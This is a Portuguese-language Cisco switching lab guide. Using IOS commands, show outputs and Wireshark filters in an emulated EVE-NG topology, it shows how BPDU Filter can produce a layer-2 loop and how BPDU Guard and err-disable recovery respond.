> ❌ BPDU Filter NÃO é mecanismo de proteção.
  
Ele NÃO:
  
- err-disable
- bloqueia
- protege
  
Ele apenas:
  
- controla participação STP
- 🔥 QUEM BLOQUEIA É O BPDU GUARD
  
Se você quiser:
  
- bloquear o ataque
- derrubar a interface
- impedir o host

**Utilize o BPDU GUARD**  

**🎯 ENTÃO O QUE ACONTECEU NO SEU TESTE?**  

- ✔ O switch RECEBEU o BPDU
- ✔ O switch percebeu atividade STP
- ✔ O PortFast foi removido
- ✔ A interface voltou a participar do STP
  
MAS:
  
> ❌ nenhuma proteção foi acionada
  
Porque:
  
- não existe BPDU Guard

```ios
SWACC02#show spanning-tree interface g1/1 detail
 Port 6 (GigabitEthernet1/1) of VLAN0001 is root forwarding
   Port path cost 4, Port priority 128, Port Identifier 128.6.
   Designated root has priority 0, address 0050.0000.0600
   Designated bridge has priority 0, address 0050.0000.0600
   Designated port id is 128.1, designated path cost 0
   Timers: message age 2, forward delay 0, hold 0
   Number of transitions to forwarding state: 1
   The port is in the portfast edge mode
   Link type is point-to-point by default
   BPDU: sent 5324, received 5338
SWACC02#
```

**🧠 ISSO É UMA DIFERENÇA CLÁSSICA DE CCNP**  
  
| Recurso                   | Comportamento                   |
| :---                      | :---                            |
| BPDU Filter por interface | Ignora BPDUs permanentemente    |
| BPDU Filter global        | Para de filtrar ao receber BPDU |
| BPDU Guard                | Coloca interface em err-disable |

---

### 🚩 Parte 1C — Criando Redundância e Simulando um Loop de Camada 2

Agora vamos remover o **BPDU FILTER** das interfaces e do modo global.

```ios
SWACC02>ena
SWACC02#conf t
Enter configuration commands, one per line.  End with CNTL/Z.
SWACC02(config)#int range G1/1-2
SWACC02(config-if-range)#no spanning
SWACC02(config-if-range)#no spanning-tree bpdufilter
SWACC02(config-if-range)#exit
SWACC02(config)#no spanning-tree portfast edge bpdufilter default
SWACC02(config)#
```
  
Também vamos transformar as portas G1/2-3 em edge

```ios
SWACC02(config)#int range g1/2-3
SWACC02(config-if-range)#spanning-tree portfast edge
```

Até este ponto, a topologia encontra-se estável e o STP está convergido corretamente.  
  
Agora iremos adicionar um segundo link entre o SWACC02 e o SW_CONTROLE para criar um caminho redundante na camada 2.

### 🔌 Adicionando o segundo link

Conecte:

```bash
SWACC02 Gi1/3  <-->  SW_CONTROLE Gi1/1
```

Com isso, o SW_CONTROLE passará a possuir dois caminhos ativos até a topologia principal.



---

## ✅ Comportamento esperado ANTES do BPDU Filter

Neste momento, o STP ainda está funcionando normalmente.

Ao verificar o STP:

```bash
SW_CONTROLE#show spanning-tree vlan 1

VLAN0001
  Spanning tree enabled protocol ieee
  Root ID    Priority    4097
             Address     5000.0001.0000
             Cost        8
             Port        7 (GigabitEthernet1/2)
             Hello Time   2 sec  Max Age 20 sec  Forward Delay 15 sec

  Bridge ID  Priority    32769  (priority 32768 sys-id-ext 1)
             Address     5000.0004.0000
             Hello Time   2 sec  Max Age 20 sec  Forward Delay 15 sec
             Aging Time  300 sec

Interface           Role Sts Cost      Prio.Nbr Type
------------------- ---- --- --------- -------- --------------------------------
Gi0/0               Desg FWD 4         128.1    P2p
Gi0/1               Desg FWD 4         128.2    P2p
Gi0/2               Desg FWD 4         128.3    P2p
Gi0/3               Desg FWD 4         128.4    P2p
Gi1/0               Desg FWD 4         128.5    P2p
Gi1/1               Desg FWD 4         128.6    P2p
Gi1/2               Root FWD 4         128.7    P2p

Interface           Role Sts Cost      Prio.Nbr Type
------------------- ---- --- --------- -------- --------------------------------

Gi1/3               Altn BLK 4         128.8    P2p
Gi2/0               Desg FWD 4         128.9    P2p
Gi2/1               Desg FWD 4         128.10   P2p
Gi2/2               Desg FWD 4         128.11   P2p
Gi2/3               Desg FWD 4         128.12   P2p
Gi3/0               Desg FWD 4         128.13   P2p
Gi3/1               Desg FWD 4         128.14   P2p
Gi3/2               Desg FWD 4         128.15   P2p
Gi3/3               Desg FWD 4         128.16   P2p


SW_CONTROLE#
```

o comportamento esperado será:

- troca normal de BPDUs
- detecção da redundância
- bloqueio automático de uma das interfaces
- prevenção do loop de camada 2

Ou seja:

👉 mesmo com dois links físicos ativos, o STP mantém a rede estável.

**OBSERVAÇÂO:** podemos notar que no nosso exemplo, a porta **G1/3** ficou **BLK** pelo STP, o que é o comportamento normal e esperado.
  
---
  
## 🔍 O que observar no Wireshark

Durante o funcionamento normal do STP, capture o tráfego na interface conectada ao SW_CONTROLE. Vamos escolher a interface **G1/2** nesse caso.

Utilize o filtro:

```bash
stp
```

Você deverá observar:

- envio periódico de BPDUs
- eleição da Root Bridge
- troca de informações de topologia
- funcionamento normal do plano de controle



---

## ⚠️ Habilitando BPDU Filter

Agora iremos modificar o comportamento da interface conectada ao SW_CONTROLE.

No SWACC02:

```bash
interface gi1/2
 spanning-tree portfast
 spanning-tree bpdufilter enable

interface gi1/3
 spanning-tree portfast
 spanning-tree bpdufilter enable
```

Nesse modo, as interfaces:

- deixam de enviar BPDUs
- deixam de processar BPDUs
- permanecem permanentemente em forwarding

---

## 🔥 Simulando o Loop

Após habilitar o BPDU Filter:

- o STP perde visibilidade do caminho redundante
- nenhuma porta será bloqueada
- ambas permanecerão encaminhando tráfego

Com isso:

- frames de broadcast começam a circular indefinidamente
- ocorre flooding de camada 2
- surgem loops Ethernet
- a CPU dos switches pode aumentar rapidamente

---

## 🔍 Observe os impactos

### Verificar STP

```bash
SW_CONTROLE#show spanning-tree vlan 1

VLAN0001
  Spanning tree enabled protocol ieee
  Root ID    Priority    32769
             Address     5000.0004.0000
             This bridge is the root
             Hello Time   2 sec  Max Age 20 sec  Forward Delay 15 sec

  Bridge ID  Priority    32769  (priority 32768 sys-id-ext 1)
             Address     5000.0004.0000
             Hello Time   2 sec  Max Age 20 sec  Forward Delay 15 sec
             Aging Time  15  sec

Interface           Role Sts Cost      Prio.Nbr Type
------------------- ---- --- --------- -------- --------------------------------
Gi0/0               Desg FWD 4         128.1    P2p
Gi0/1               Desg FWD 4         128.2    P2p
Gi0/2               Desg FWD 4         128.3    P2p
Gi0/3               Desg FWD 4         128.4    P2p
Gi1/0               Desg FWD 4         128.5    P2p
Gi1/1               Desg FWD 4         128.6    P2p
Gi1/2               Desg FWD 4         128.7    P2p Edge
Gi1/3               Desg FWD 4         128.8    P2p Edge

Interface           Role Sts Cost      Prio.Nbr Type
------------------- ---- --- --------- -------- --------------------------------

Gi2/0               Desg FWD 4         128.9    P2p
Gi2/1               Desg FWD 4         128.10   P2p
Gi2/2               Desg FWD 4         128.11   P2p
Gi2/3               Desg FWD 4         128.12   P2p
Gi3/0               Desg FWD 4         128.13   P2p
Gi3/1               Desg FWD 4         128.14   P2p
Gi3/2               Desg FWD 4         128.15   P2p
Gi3/3               Desg FWD 4         128.16   P2p


SW_CONTROLE#
```

Observe que o STP não bloqueará o caminho redundante.

---

### Verificar MAC Flapping

```bash
show logging
```

```ios
-Traceback= 1DDC418z 8DC255z 90582Ez 905550z 90535Dz 9014E5z 90211Bz 9020AFz 8E79A1z 8E790Ez 7E4E93z 10A0F2Bz 10A275Dz F70EEDz 33386DFz 333855Bz - Process "Spanning Tree", CPU hog, PC 0x008FD955

*May 14 18:39:02.379: %SYS-3-CPUHOG: Task is running for (1999)msecs, more than (2000)msecs (0/0),process = Spanning Tree.
-Traceback= 1DDC418z 8DC255z 90582Ez 905550z 90535Dz 9014E5z 90211Bz 9020AFz 7A6991z 3338681z 333855Bz 3337EE7z 333982Az 333980Az 333B4E3z 333A343z - Process "Spanning Tree", CPU hog, PC 0x008FD955

*May 14 18:54:43.078: %SYS-3-CPUHOG: Task is running for (1997)msecs, more than (2000)msecs (0/0),process = Spanning Tree.
-Traceback= 1DDC418z 8DC255z 90582Ez 905550z 90535Dz 9014E5z 90211Bz 9020AFz 8E79A1z 8E790Ez 7E4E93z 10A0F2Bz 10A275Dz F70EEDz 33386DFz 333855Bz - Process "Spanning Tree", CPU hog, PC 0x008FD955

*May 14 18:59:50.994: %SYS-3-CPUHOG: Task is running for (2000)msecs, more than (2000)msecs (0/0),process = Spanning Tree.
-Traceback= 1DDC418z 8DC255z 90582Ez 905550z 90535Dz 9014E5z 90211Bz 9020AFz 8E79A1z 8E790Ez 7E4E93z 10A0F2Bz 10A275Dz F70EEDz 33386DFz 333855Bz - Process "Spanning Tree", CPU hog, PC 0x008FD955

*May 14 19:01:13.398: %SYS-3-CPUHOG: Task is running for (1999)msecs, more than (2000)msecs (0/0),process = Spanning Tree.
-Traceback= 1DDC418z 8DC255z 90582Ez 905550z 90535Dz 9014E5z 90211Bz 9020AFz 8E79A1z 8E790Ez 7E4E93z 10A0F2Bz 10A275Dz F70EEDz 33386DFz 333855Bz - Process "Spanning Tree", CPU hog, PC 0x008FD955

*May 14 19:02:45.046: %SYS-3-CPUHOG: Task is running for (2000)msecs, more than (2000)msecs (0/0),process = Spanning Tree.
```

ou

```bash
show mac address-table dynamic
```

```ios
SW_CONTROLE#show mac address-table dynamic
          Mac Address Table
-------------------------------------------

Vlan    Mac Address       Type        Ports
----    -----------       --------    -----
   1    5000.0001.0001    DYNAMIC     Gi1/3
   1    5000.0002.0000    DYNAMIC     Gi1/2
   1    5000.0003.0002    DYNAMIC     Gi1/3
   1    5000.0003.0006    DYNAMIC     Gi1/2
   1    5000.0003.0007    DYNAMIC     Gi1/3
   1    5000.0004.0006    DYNAMIC     Gi1/3
   1    5000.0004.0007    DYNAMIC     Gi1/2
   1    5000.0007.0000    DYNAMIC     Gi1/2
Total Mac Addresses for this criterion: 8
```

---

### Verificar utilização de CPU

```bash
show processes cpu sorted
```

```ios
SW_CONTROLE#show processes cpu sorted
CPU utilization for five seconds: 45%/0%; one minute: 33%; five minutes: 16%
 PID Runtime(ms)     Invoked      uSecs   5Sec   1Min   5Min TTY Process
 PID Runtime(ms)     Invoked      uSecs   5Sec   1Min   5Min TTY Process
 128       32280       12869       2508  9.48%  6.87%  3.14%   0 Spanning Tree
 280       21637        1989      10878  8.02%  5.39%  2.02%   0 Per-Second Jobs
 112        1628         735       2214  5.83%  0.64%  0.17%   0 CDP Protocol
 104        5502       19262        285  5.10%  1.88%  0.66%   0 UDLD
  10        8409       31734        264  3.08%  3.69%  1.60%   0 IOSv in console
  62       93826       88194       1063  2.67%  3.71%  4.60%   0 IOSv e1000
 201        5001       29474        169  2.51%  1.54%  0.56%   0 MMA DB TIMER
  70        6483      230201         28  2.10%  1.05%  0.49%   0 Ethernet Msec Ti
 215        4918       29477        166  1.86%  1.44%  0.53%   0 MMA DP TIMER
 ...
 ```

---

### Verificar aumento de broadcasts

```bash
show interfaces counters
```

**OBSERVAÇÂO:** por limitações de imagem e/ou emulador, vamos utilizar o comando **show interfaces gi1/3 | include rate|packets|broadcast**

```ios
SW_CONTROLE#show interfaces gi1/3 | include rate|packets|broadcast
  Queueing strategy: fifo
  5 minute input rate 110000 bits/sec, 145 packets/sec
  5 minute output rate 99000 bits/sec, 127 packets/sec
     100292 packets input, 9090447 bytes, 0 no buffer
     Received 0 broadcasts (0 multicasts)
     75117 packets output, 6864752 bytes, 0 underruns
SW_CONTROLE#show interfaces gi1/3 | include rate|packets|broadcast
  Queueing strategy: fifo
  5 minute input rate 115000 bits/sec, 152 packets/sec
  5 minute output rate 101000 bits/sec, 130 packets/sec
     103687 packets input, 9395921 bytes, 0 no buffer
     Received 0 broadcasts (0 multicasts)
     77919 packets output, 7116902 bytes, 0 underruns
SW_CONTROLE#show interfaces gi1/2 | include rate|packets|broadcast
  Queueing strategy: fifo
  5 minute input rate 105000 bits/sec, 136 packets/sec
  5 minute output rate 122000 bits/sec, 163 packets/sec
     80549 packets input, 7326548 bytes, 0 no buffer
     Received 0 broadcasts (0 multicasts)
     105527 packets output, 9591659 bytes, 0 underruns
SW_CONTROLE#show interfaces gi1/2 | include rate|packets|broadcast
  Queueing strategy: fifo
  5 minute input rate 101000 bits/sec, 130 packets/sec
  5 minute output rate 117000 bits/sec, 157 packets/sec
     80553 packets input, 7326756 bytes, 0 no buffer
     Received 0 broadcasts (0 multicasts)
     105527 packets output, 9591659 bytes, 0 underruns
SW_CONTROLE#
```

---

> **Contraste com BPDU Guard:**  
> Se no lugar do `spanning-tree bpdufilter enable` fosse utilizado:
>
> ```bash
> spanning-tree bpduguard enable
> ```
>
> a interface entraria imediatamente em `err-disabled` ao receber um BPDU inesperado do SW_CONTROLE, eliminando o risco de loop.

## 🧪 Laboratório 2 — Err-disable Recovery: A Autodefesa Automatizada

Nesta etapa, substituímos o `bpdufilter enable` por `bpduguard enable` na porta G3/2 do switch **SW_CONTROLE** e configuramos o Err-disable Recovery para reativar a porta automaticamente após o intervalo definido.

---

### Parte 2A — Provocando o Err-disable com BPDU Guard

```ios
SW_CONTROLE(config)#int g1/3
SW_CONTROLE(config-if)#spanning-tree bpduguard enable
SW_CONTROLE(config-if)#
*May 14 19:12:21.572: %SPANTREE-2-BLOCK_BPDUGUARD: Received BPDU on port Gi1/3 with BPDU Guard enabled. Disabling port.
*May 14 19:12:21.572: %PM-4-ERR_DISABLE: bpduguard error detected on Gi1/3, putting Gi1/3 in err-disable state
*May 14 19:12:22.572: %LINEPROTO-5-UPDOWN: Line protocol on Interface GigabitEthernet1/3, changed state to down
*May 14 19:12:23.592: %LINK-3-UPDOWN: Interface GigabitEthernet1/3, changed state to down
SW_CONTROLE(config-if)#
```

Logo que aplicamos o comando já recebemos um aviso de erro. Ou seja, o switch detecta que recebeu um BPDU em uma porta em que não deveria e já coloca ela em **%PM-4-ERR_DISABLE** para proteger o equipamento.
  
Com o SW_CONTROLE ainda conectado, observe a porta entrar em err-disabled:
  
```ios
SW_CONTROLE#show interfaces status

Port      Name               Status       Vlan       Duplex  Speed Type
Gi0/0                        connected    1          a-full   auto RJ45
Gi0/1                        connected    1          a-full   auto RJ45
Gi0/2                        connected    1          a-full   auto RJ45
Gi0/3                        connected    1          a-full   auto RJ45
Gi1/0                        connected    1          a-full   auto RJ45
Gi1/1                        connected    1          a-full   auto RJ45
Gi1/2                        connected    1          a-full   auto RJ45
Gi1/3                        err-disabled 1            auto   auto RJ45
Gi2/0                        connected    1          a-full   auto RJ45
Gi2/1                        connected    1          a-full   auto RJ45
Gi2/2                        connected    1          a-full   auto RJ45
Gi2/3                        connected    1          a-full   auto RJ45
Gi3/0                        connected    1          a-full   auto RJ45
Gi3/1                        connected    1          a-full   auto RJ45
Gi3/2                        connected    1          a-full   auto RJ45
Gi3/3                        connected    1          a-full   auto RJ45
SW_CONTROLE#
```

> SW-ACESSO# show log | include SPANTREE|ERR

```ios
SW_CONTROLE#show log | include SPANTREE|ERR
*May 14 19:08:21.409: %SPANTREE-2-BLOCK_BPDUGUARD: Received BPDU on port Gi1/3 with BPDU Guard enabled. Disabling port.
*May 14 19:08:21.409: %PM-4-ERR_DISABLE: bpduguard error detected on Gi1/3, putting Gi1/3 in err-disable state
*May 14 19:09:01.807: %SPANTREE-2-BLOCK_BPDUGUARD: Received BPDU on port Gi1/3 with BPDU Guard enabled. Disabling port.
*May 14 19:09:01.808: %PM-4-ERR_DISABLE: bpduguard error detected on Gi1/3, putting Gi1/3 in err-disable state
*May 14 19:10:50.838: %SPANTREE-2-BLOCK_BPDUGUARD: Received BPDU on port Gi1/3 with BPDU Guard enabled. Disabling port.
*May 14 19:10:50.839: %PM-4-ERR_DISABLE: bpduguard error detected on Gi1/3, putting Gi1/3 in err-disable state
*May 14 19:12:21.572: %SPANTREE-2-BLOCK_BPDUGUARD: Received BPDU on port Gi1/3 with BPDU Guard enabled. Disabling port.
*May 14 19:12:21.572: %PM-4-ERR_DISABLE: bpduguard error detected on Gi1/3, putting Gi1/3 in err-disable state
SW_CONTROLE#
```

---

### Parte 2B — Configurando o Err-disable Recovery

```ios
SW_CONTROLE(config)#errdisable recovery cause ?
  all                   Enable timer to recover from all error causes
  arp-inspection        Enable timer to recover from arp inspection error
                        disable state
  bpduguard             Enable timer to recover from BPDU Guard error
  channel-misconfig     Enable timer to recover from channel misconfig error
                        (STP)
  dhcp-rate-limit       Enable timer to recover from dhcp-rate-limit error
  dtp-flap              Enable timer to recover from dtp-flap error
  gbic-invalid          Enable timer to recover from invalid GBIC error
  inline-power          Enable timer to recover from inline-power error
  l2ptguard             Enable timer to recover from l2protocol-tunnel error
  link-flap             Enable timer to recover from link-flap error
  link-monitor-failure  Enable timer to recover from link monitoring failure
  loopback              Enable timer to recover from loopback error
  mac-limit             Enable timer to recover from mac limit disable state
  oam-remote-failure    Enable timer to recover from OAM detected remote
                        failure
  pagp-flap             Enable timer to recover from pagp-flap error
  port-mode-failure     Enable timer to recover from port mode change failure
  pppoe-ia-rate-limit   Enable timer to recover from PPPoE IA rate-limit error
  psecure-violation     Enable timer to recover from psecure violation error
  psp                   Enable timer to recover from psp
  security-violation    Enable timer to recover from 802.1x violation error
  sfp-config-mismatch   Enable timer to recover from SFP config mismatch error
  storm-control         Enable timer to recover from storm-control error
  udld                  Enable timer to recover from udld error
  unicast-flood         Enable timer to recover from unicast flood error
  vmps                  Enable timer to recover from vmps shutdown error

SW_CONTROLE(config)#errdisable recovery cause bpduguard
SW_CONTROLE(config)#errdisable recovery interval 60
SW_CONTROLE(config)#
```

> **Nota sobre o intervalo:** Em laboratório, 30 segundos é conveniente para testes. Em produção, valores muito baixos (< 30s) podem causar um ciclo de recovery infinito se a causa não for removida — a porta sobe, recebe BPDU, cai novamente, sobe... Recomenda-se 60–300 segundos dependendo do processo de gestão de mudanças do ambiente.

**Verificação do Recovery configurado:**
  
Para vereficarmos o recovery automático do estado **errdisable** devemos digitar em modo global:

```ios
show errdisable recovery
```

```ios
SW_CONTROLE#show errdisable recovery
ErrDisable Reason            Timer Status
-----------------            --------------
arp-inspection               Disabled
bpduguard                    Enabled
channel-misconfig (STP)      Disabled
dhcp-rate-limit              Disabled
dtp-flap                     Disabled
gbic-invalid                 Disabled
inline-power                 Disabled
l2ptguard                    Disabled
link-flap                    Disabled
mac-limit                    Disabled
link-monitor-failure         Disabled
loopback                     Disabled
oam-remote-failure           Disabled
pagp-flap                    Disabled
port-mode-failure            Disabled
pppoe-ia-rate-limit          Disabled
psecure-violation            Disabled
security-violation           Disabled
sfp-config-mismatch          Disabled
storm-control                Disabled
udld                         Disabled

Interface       Errdisable reason       Time left(sec)
---------       -----------------       --------------
unicast-flood                Disabled
vmps                         Disabled
psp                          Disabled
dual-active-recovery         Disabled
evc-lite input mapping fa    Disabled
Recovery command: "clear     Disabled

Timer interval: 60 seconds

Interfaces that will be enabled at the next timeout:

Interface       Errdisable reason       Time left(sec)
---------       -----------------       --------------
Gi1/3                  bpduguard          204

SW_CONTROLE#
```

---

### Parte 2C — Validando o Ciclo Completo

1. Aguarde o timer expirar — a porta G1/3 deve subir automaticamente.
2. Como o SW_CONTROLE ainda está conectado, ela entra em `err-disabled` novamente.

```ios
SW_CONTROLE#
*May 14 19:25:29.122: %PM-4-ERR_RECOVER: Attempting to recover from bpduguard err-disable state on Gi1/3
*May 14 19:25:31.104: %SPANTREE-2-BLOCK_BPDUGUARD: Received BPDU on port Gi1/3 with BPDU Guard enabled. Disabling port.
*May 14 19:25:31.104: %PM-4-ERR_DISABLE: bpduguard error detected on Gi1/3, putting Gi1/3 in err-disable state
*May 14 19:26:31.095: %PM-4-ERR_RECOVER: Attempting to recover from bpduguard err-disable state on Gi1/3
*May 14 19:26:31.696: %SPANTREE-2-BLOCK_BPDUGUARD: Received BPDU on port Gi1/3 with BPDU Guard enabled. Disabling port.
*May 14 19:26:31.696: %PM-4-ERR_DISABLE: bpduguard error detected on Gi1/3, putting Gi1/3 in err-disable state
```

---

## 🔍 O que está acontecendo?

O comportamento observado é esperado.

A funcionalidade `errdisable recovery` apenas tenta reativar automaticamente a interface após o tempo configurado.

Entretanto:

- o SW_CONTROLE continua conectado
- a porta continua recebendo BPDUs
- o BPDU Guard continua detectando violação

Como resultado:

1. a interface sobe novamente
2. recebe um novo BPDU
3. entra novamente em `err-disabled`

Isso cria um ciclo contínuo de:

```text
UP → ERR-DISABLE → RECOVERY → UP → ERR-DISABLE
```

---

## ⚠️ Impacto em ambientes reais

Em produção, esse comportamento pode causar:

- instabilidade intermitente
- reconvergências STP constantes
- MAC Flapping
- aumento de CPU
- flooding
- degradação da rede

Em cenários maiores, isso pode inclusive causar:

- travamentos parciais
- perda de gerenciamento
- lentidão generalizada
- interrupções temporárias de tráfego

---

## 🧠 Consideração importante

O `errdisable recovery` não corrige a causa do problema.
  
Ele apenas automatiza a tentativa de recuperação da interface.
  
Se a origem da violação continuar presente, a porta continuará entrando em `err-disabled` repetidamente.
  
👉 Em ambientes corporativos, esse comportamento normalmente é identificado através de:
  
- Syslog
- monitoramento SNMP
- alertas de CPU
- logs de MAC Flapping
- eventos do STP

---

## ✅ Retornando ao estado estável

Para estabilizar novamente a topologia, remova a causa da violação.

No laboratório, isso pode ser feito:

- desconectando o SW_CONTROLE
- removendo o segundo link redundante
- ou desabilitando administrativamente a interface responsável pelo envio dos BPDUs

Após a remoção da causa:

1. aguarde o próximo ciclo de recovery
2. a interface deverá subir normalmente
3. a porta permanecerá operacional

---

## 🔍 Verificações finais

```ios
SW-ACESSO# show interfaces status
```

```ios
SW-ACESSO# show spanning-tree vlan 10
```

A topologia deverá retornar ao estado estável inicial.

---

## 🦈 Wireshark: Capturando e Analisando BPDUs

O Wireshark é a ferramenta definitiva para confirmar visualmente o que os comandos `show` reportam. Neste laboratório, ele permite **ver os BPDUs circulando, sumirem com o Filter ativo e explodirem durante o loop**.

---

### Como Iniciar a Captura no EVE-NG

No EVE-NG, clique com o **botão direito sobre o cabo** que deseja capturar e selecione **"Start Capture"**. O Wireshark abrirá automaticamente no seu host com a captura já em andamento naquele link específico.

Pontos de captura recomendados para este laboratório:

| Momento do Lab                           | Onde Capturar                        | O que Você Verá                                                        |
| :---                                     | :---                                 | :---                                                                   |
| Base configurada (sem filtro)            | Link SW-CORE <-> SW-ACESSO (G0/0)    | BPDUs Hello a cada 2 segundos — topologia estável                      |
| Após `bpdufilter default` global         | Link SW-ACESSO <-> VPC-01 (G1/0)     | Ausência de BPDUs saindo para o host final. Deixar as portas como edge |
| Após `bpdufilter enable` por interface   | Link SW-ACESSO <-> SW_CONTOLE (G1/3) | SW-INTRUSO enviando BPDUs, SW-ACESSO ignorando                         |
| Durante o loop (Lab 1C)                  | Qualquer link ativo                  | Explosion de broadcasts — ARP, STP TCN em massa                        |
| BPDU Guard ativo + SW_CONTROLE conectado | Link SW-ACESSO <-> SW_CONTOLE (G1/3) | Um único BPDU recebido → porta cai → silêncio                          |
| Durante o Err-disable Recovery           | Link SW-ACESSO <-> SW_CONTOLE (G1/3) | Porta sobe → BPDU recebido → porta cai (ciclo)                         |

---

### Filtros Wireshark para Este Laboratório

Utilize os filtros abaixo na barra de filtro do Wireshark para isolar exatamente o tráfego relevante em cada etapa.

**Capturar apenas BPDUs (STP):**

```Whireshark
stp
```



> Exibe todos os quadros STP — Configuration BPDUs e TCN BPDUs. É o filtro principal deste laboratório.

**Capturar BPDUs e separar por tipo:**

```Whireshark
stp.type == 0x00
```



> Filtra apenas **Configuration BPDUs** (Hello normal do STP).

```Whireshark
stp.type == 0x80
```

